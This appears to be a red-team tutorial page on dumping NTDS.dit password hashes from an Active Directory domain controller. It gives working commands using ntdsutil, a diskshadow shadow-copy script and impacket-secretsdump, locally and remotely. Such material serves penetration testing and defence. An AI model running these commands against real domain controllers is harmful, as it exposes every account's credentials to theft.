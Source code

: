```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C \(where ntds.dit is located in our case\) and expose it as drive Z:\

{% code title="shadow.txt" %}
```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```
{% endcode %}

...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:

![](../../.gitbook/assets/image%20%28391%29.png)

Inside interactive diskshadow utility, clean up the shadow volume:

```text
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%28176%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" %}

